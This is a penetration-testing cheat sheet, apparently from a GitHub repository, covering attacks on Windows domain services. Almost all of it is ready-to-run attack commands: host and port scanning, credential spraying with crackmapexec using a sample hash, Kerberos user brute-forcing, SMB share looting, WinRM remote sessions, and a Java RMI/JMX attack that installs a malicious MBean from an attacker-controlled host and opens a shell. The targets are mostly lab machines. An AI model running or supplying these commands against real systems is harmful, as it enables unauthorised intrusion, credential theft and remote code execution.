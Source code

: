 ## Scan  
**Discover the hosts on the network (Linux) :**   
`for i in {1..255};do ping -c 1 192.168.110.$i > /dev/null;if [ $? -eq 0];then echo 192.168.110.$i;fi;done`   
`nmap -Pn -p- -v 192.168.110.1-255`   

**Discover the hosts on the network (Windows) :**
Use PowerSploit's function `Invoke-Portscan` : https://github.com/PowerShellMafia/PowerSploit/blob/master/Recon/Invoke-Portscan.ps1    
`. .\Invoke-Portscan.ps1`
`Invoke-Portscan -TopPorts 1000 -Hosts 192.168.210.0/24 -oA results`


**Scan all ports on a host and execute nmap scripts (Linux & Windows):**   
`nmap -A -p- -v 192.168.110.55`  

**Spray creds on several hosts (Linux & Windows):**   
`crackmapexec smb <host> -d <domain> -u <username> -p <password> -H <hash> --shares`  
`crackmapexec winrm 192.168.110.0/24 -u Tom -H '8af1903d3c80c3552a84b6ba299db2ea' --local-auth`  


## Port 88 - Kerberos  
Valid usernames can be discovered by brute force against a Kerberos service. When an invalid username is requested the server will respond using the Kerberos error code KRB5KDC_ERR_C_PRINCIPAL_UNKNOWN, allowing us to determine that the user name was invalid. Valid user names will illicit either the TGT in a AS-REP response or the error KRB5KDC_ERR_PREAUTH_REQUIRED, signaling that the user is required to perform pre authentication.   
<br/>
**Windows - User enumeration:**  
`Rubeus.exe brute /users:<userlist.txt> /domain:spookysec.local /password:yolo /dc:<dc_ip>`  
(One fake password is provided so the accounts are not bruteforced)  
  
**Linux - User enumeration:**  
`./kerbrute_linux_amd64 userenum --domain timelapse.htb --dc 10.10.11.152 /usr/share/wordlists/SecLists/Usernames/xato-net-10-million-usernames.txt`     
<br/>
## Port 135 - MSRPC  
TODO  
<br/>
## Port 445 - SMB
**List SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152"`  
    
**Browse SMB shares (python, Linux & Windows):**  
`smbmap -u "Guest" -H "10.10.11.152" -r "IPC$"`    
    
**Download SMB files (python, Linux & Windows):**     
`smbmap -u "guest" -H 10.10.11.152 --download "Shares\Dev\winrm_backup.zip"`    
<br/> 
## Ports 389,636,3268,3269 - LDAP  
`nmap -n -sV -Pn --script "ldap* and not brute" 10.10.11.174`    
<br/>    
## Ports 5985,5986 - WinRM  
Using Evil-WinRM (Linux & Windows) :    
`gem install evil-winrm`  
`evil-winrm –i <host> –u <username> [-p <password>] [-H <hash>]`  
   
Using WinRS.exe (native PowerShell client):  
`$ winrs /r:<host> /u:<domain\username> /p:<password> <command>`  
  
Using native PowerShell :    
`PS> $creds = (New-Object System.Management.Automation.PSCredential('admin',(ConvertTo-SecureString 's3cure_PaSsw0rd!' -AsPlainText -Force)))`   
`PS> Enter-PsSession -ComputerName 10.10.11.174 -Credential $creds`   
`PS> Invoke-Command -computername support.htb -ScriptBlock {ipconfig /all} [-credential DOMAIN\username]`  
  
## Port XXXX - Java RMI - JMX
**Command execution:**  
Use mjet.py : https://github.com/mogwailabs/mjet   
JMX is used to manage remote Java resources such as MBeans. If no authentication is configured, it is possible to list the differents MBeans:  
Install jdk and use the `jconsole` binary in `\Java\jdk-18.0.2\bin\jconsole.exe` to access the service.  
it is thus possible to install a malicious MBean and execute commands:  
  
Example commands : `jython mjet.py target.test.com 18051 install tonkabean http://<attacker_IP>:6666 6666`  
`jython mjet.py target.test.com 18051 command tonkabean "id"`  
`jython mjet.py target.test.com 18051 shell tonkabean`  
Uninstall the malicious MBean at the end : `jython mjet.py target.test.com 18051 uninstall`  

